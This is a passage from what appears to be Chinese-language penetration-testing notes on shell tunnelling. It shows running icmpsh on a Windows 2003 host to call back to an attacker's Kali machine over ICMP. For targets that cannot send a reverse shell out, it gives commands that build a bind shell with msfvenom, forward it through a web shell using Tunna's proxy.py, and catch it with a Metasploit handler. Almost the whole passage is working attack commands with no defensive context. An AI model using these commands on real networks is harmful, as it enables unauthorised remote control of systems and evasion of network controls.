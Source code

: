 ![](./pic/3_proxy/9.jpg)  

win03运行：  
```
icmpsh.exe -t kali_ip -d 500 -b 30 -s 128
```
可以看到icmp进行通信的  
![](./pic/3_proxy/10.jpg)

##### Shell反弹不出的时候
主要针对：本机kali不是外网或者目标在dmz里面反弹不出shell，可以通过这种直连shell然后再通过http的端口转发到本地的metasploit  
```
1、msfvenom -p windows/x64/shell/bind_tcp LPORT=12345 -f exe -o ./shell.exe
先生成一个bind_shell

2、本地利用tunna工具进行端口转发
python proxy.py -u http://lemon.com/conn.jsp  -l 1111 -r 12345 v

3、
use exploit/multi/handler
set payload windows/x64/shell/bind_tcp
set LPORT 1111
set RHOST 127.0.0.1
```
